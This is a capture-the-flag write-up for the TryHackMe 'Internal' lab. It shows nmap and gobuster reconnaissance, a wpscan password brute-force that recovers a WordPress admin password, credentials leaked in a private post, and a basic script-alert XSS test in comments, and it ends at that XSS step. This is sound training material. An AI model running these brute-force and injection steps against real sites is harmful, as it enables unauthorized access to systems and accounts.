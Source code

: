 # Internal #
### Note: Having accepted the project, you are provided with the client assessment environment.  Secure the User and Root flags and submit them to the dashboard as proof of exploitation. ###

![alt text](/Hard/Internal/image-1.png)

### https://tryhackme.com/r/room/internal ###

------------------------------------------------------------------------------------------

### RECON: ### 
+ Ensure that you modify your hosts file to reflect internal.thm

+ Scan the target machine with Nmap and Gobuster:

```bash
nmap -sV -vv -A -p- -T4 internal.thm
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

```bash
gobuster dir -u http://internal.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -xtxt,php,html -t64
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/blog                 (Status: 301) [Size: 311] [--> http://internal.thm/blog/]
/index.html           (Status: 200) [Size: 10918]
/.php                 (Status: 403) [Size: 277]
/wordpress            (Status: 301) [Size: 316] [--> http://internal.thm/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://internal.thm/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://internal.thm/phpmyadmin/]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

### WORDPRESS ###
+ First we use tool "Wpscan" to scan the website wordpress:

![alt text](image.png)

![alt text](image-2.png)

+ We've found the user "admin" and we continue to scan user:

```bash
wpscan --url http://internal.thm/wordpress/ -U admin -P /usr/share/wordlists/rockyou.txt
```

![alt text](image-3.png)

--> We had the credential Wordpress admin:my2boys

+ Login with "admin", we are in Dashboard. Now we go to look around all features to find what the vulnearability will appear.
+ We've found the Private Post in Posts and the credential of user William but we do not know where we can log in with this. 

![alt text](image-4.png)

--> The credential was leaked: william:arnold147

### XSS ###
+ The vulnerability XSS appear in feature "Comments".
+ We will test common payload XSS first:

```bash
<script>alert('XSS')</script>
```

![alt text](image-6.png)

+ When we update comment and "View Post" so the website pop up the box alert:

![alt text](image-7.png)



